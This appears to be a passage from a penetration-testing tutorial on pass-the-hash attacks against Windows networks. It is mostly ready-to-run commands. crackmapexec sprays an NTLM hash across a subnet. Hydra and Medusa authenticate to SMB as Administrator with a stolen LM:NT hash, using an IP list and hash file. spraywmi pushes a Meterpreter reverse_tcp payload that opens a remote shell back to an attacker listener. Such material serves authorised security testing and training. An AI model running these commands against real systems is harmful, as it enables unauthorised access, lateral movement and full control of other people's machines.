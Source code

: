 {% highlight PowerShell %}
crackmapexec 10.1.1.0/24 -u evilsaint -H fc525c9683e8fe067095ba2ddc971889
{% endhighlight %}

### Hydra

we can test pass the hash with Hyrdra but we can only do one host at a time in the current version.

{% highlight PowerShell %}
hydra smb://10.10.10.200 -l Administrator -p aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 -m "local hash"
{% endhighlight %}

### Medussa

We can do pass the hash with Medusa however we need to specify items in files and feed them in, we cant enter everyting on the command line.

In this example the contents of ips.txt and pth.txt are as follows:

{% highlight PowerShell %}
root@evilsaint:/tmp# cat ips.txt
10.10.10.34
10.10.10.56
10.10.10.200
10.10.10.254

root@evilsaint:/tmp# pth.txt
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
{% endhighlight %}

We then run the command as follows.

{% highlight PowerShell %}
medusa -H ips.txt -C pth.txt -M smbnt -m PASS:HASH
{% endhighlight %}

### SprayWMI

WMIS needs to be installed in order to use sprayWMI

{% highlight PowerShell %}
apt-get install wmis
{% endhighlight %}

On 64bit platforms, sprayWMI needs an extra step completing

{% highlight PowerShell %}
dpkg --add-architecture i386 && apt-get update && apt-get install libpam0g:i386 libpopt0:i386
{% endhighlight %}

{% highlight PowerShell %}
python spraywmi.py WORKGROUP Administrator 7bfd3ee62cbb0eba886450c5d6c50f12:f3acbe7ec27aadbe8deeaa0c651a64af 10.10.10.10 windows/meterpreter/reverse_tcp 10.10.10.11 8080
{% endhighlight %}

https://github.com/trustedsec/spraywmi
